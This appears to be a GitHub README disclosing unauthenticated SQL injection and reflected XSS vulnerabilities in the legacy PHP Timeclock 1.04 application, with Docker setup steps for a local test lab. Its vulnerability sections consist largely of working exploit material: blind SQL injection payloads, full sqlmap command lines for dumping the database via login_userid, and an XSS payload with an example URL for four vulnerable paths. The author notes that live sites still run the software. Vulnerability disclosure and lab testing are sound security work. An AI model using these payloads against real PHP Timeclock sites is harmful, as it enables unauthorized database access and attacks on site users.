


# PHP Timelock 1.04 SQLi and XSS Vulnerabilities 




> This repository contains details on several vulnerabilities I found in the [PHP TimeClock](http://timeclock.sourceforge.net/) application. PHP Timeclock is a legacy php application created in 2006 and maintained up until 2013. Unfortunately, several production sites still use the application, and can be identified with basic OSINT. The vulnerabilities include, 
> 1) Unauthenticated Time and Boolean Based SQL Injection (SQLI)
> 2) Unauthenticated Reflected Cross Site Scripting (XSS)
> 3) Authenticated Reflected Cross Site Scripting (XSS)  


**Index**
- [PHP Timelock 1.04 SQLi and XSS Vulnerabilities](#php-timelock-104-sqli-and-xss-vulnerabilities)
  - [Indentified Vulnerabilities](#indentified-vulnerabilities)
    - [PHP Timeclock 1.04 Time and Boolean Based Blind SQL Injection](#php-timeclock-104-time-and-boolean-based-blind-sql-injection)
      - [PHP Timeclock 1.04 Multiple Unauthenticated Reflected Cross Site Scripting (XSS)](#php-timeclock-104-multiple-unauthenticated-reflected-cross-site-scripting-xss)
  - [Local Testing](#local-testing)
  - [Remote Testing](#remote-testing)

## Indentified Vulnerabilities 

### PHP Timeclock 1.04 Time and Boolean Based Blind SQL Injection  




Description: PHP Timeclock is vulnerable to both Boolean and Time Based SQL Injection on login.php via the login_userid parameter. This PoC shows how SQLmap can be used to exploit this vulnerability to dump database contents

Boolean Based Payload: user' RLIKE (SELECT (CASE WHEN (8535=8535) THEN 0x75736572 ELSE 0x28 END))-- QwMo&login_password=pass
Time Based Payload: user' AND (SELECT 4247 FROM (SELECT(SLEEP(5)))ztHm) AND 'WHmv'='WHmv&login_password=pass


Steps to reproduce:
  1. Run sqlmap against a instance of PHP Timeclock
  2. Follow the instructions below for specific versions of MySQL


MySQL >= 5.0.12: 
```
$ sqlmap -u http://localhost/login.php --method POST --data "login_userid=user&login_password=pass" -p login_userid --not-string="Warning" --dbms=MySQL --technique=TB --current-db
---
Parameter: login_userid (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: login_userid=user' AND (SELECT 4247 FROM (SELECT(SLEEP(5)))ztHm) AND 'WHmv'='WHmv&login_password=pass
---
```

MySQL < 5: On versions using MySQL < 5, table names must be included as arguments as information_schema was not introduced into MySQL yet.

```
$ sqlmap -u http://localhost/login.php --method POST --data "login_userid=user&login_password=pass" -p login_userid --not-string="Warning" --technique=B -D timeclock -T employees, -C empfullname --dump --dbms=MySQL -v 
---
Parameter: login_userid (POST)
    Type: boolean-based blind
    Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: login_userid=user' RLIKE (SELECT (CASE WHEN (8535=8535) THEN 0x75736572 ELSE 0x28 END))-- QwMo&login_password=pass
---

```  

#### PHP Timeclock 1.04 Multiple Unauthenticated Reflected Cross Site Scripting (XSS)


Description: PHP Timeclock version 1.04 (and prior) suffers from multiple Unauthenticated Reflected Cross-Site Scripting Vulnerabilities. Arbitrary javascript can be injected into the application by appending a termination /'> and payload directly to the end of the GET request URL. The vulnerable paths include (1) /login.php  (2) /timeclock.php (3) /reports/audit.php and (4) /reports/timerpt.php. 


Payload: /'><svg/onload=alert`xss`>

Example: http://target/login.php/'%3E%3Csvg/onload=alert%60xss%60%3E


Steps to reproduce:
  1. Navigate to a site that uses PHP Timeclock 1.04 or earlier
  2. Make a GET request to one of the four resources mentioned above
  3. Append /'> and the payload to the end of the request
  4. Submit the request and observe payload execution
## Local Testing 

This repository was my attempt at dockerizing the 2006-2013 [PHP TimeClock](http://timeclock.sourceforge.net/) application. It uses an adapted version of [rodvlopes/php4-mysql4-apache2.2-docker](https://github.com/rodvlopes/php4-mysql4-apache2.2-docker) to manage setting up legacy versions of php,mysql, and apache which are required in php timeclock due to several deprecated functions. 


It was a bit of a pain to create a test environment for PHP Timeclock due to the fact it requires legacy version of PHP and MySQL. To get version 1.04 up and running without modifying source code, the application requires MySQL 4 and PHP 4. To accomondate this, I created this docker container based on [rodvlopes/php4-mysql4-apache2.2-docker](https://github.com/rodvlopes/php4-mysql4-apache2.2-docker). 

1) Clone the repo  

 `git clone https://github.com/tcbutler320/php-timeclock-docker`

2) cd into the docker folder 

`cd php-timeclock-docker/docker`

3) build docker image 

`docker build -f Dockerfile.ubuntu -t timeclock .`

4) Run the image 

`docker run -d --name timeclock --restart=always -p 80:80 -v ./data:/usr/local/mysql/var -v ./timeclock-1.04:/usr/local/apache2/htdocs timeclock`

5) Drop into the container with bash  

`sudo docker exec -it timeclock /bin/bash  ` 

6) open a mysql shell 

`mysql -u root -p`, using password IAmroot

7) create the timeclock database 

`create database timeclock;`

8)  exit the mysql shell
   
9)  populate the database with the sql file 

`mysql -u root -p timeclock < /usr/local/apache2/htdocs/create_tables.sql`

## Remote Testing   

Upon request I will open a remote server for testing, drop me message on twitter @tbutler0x90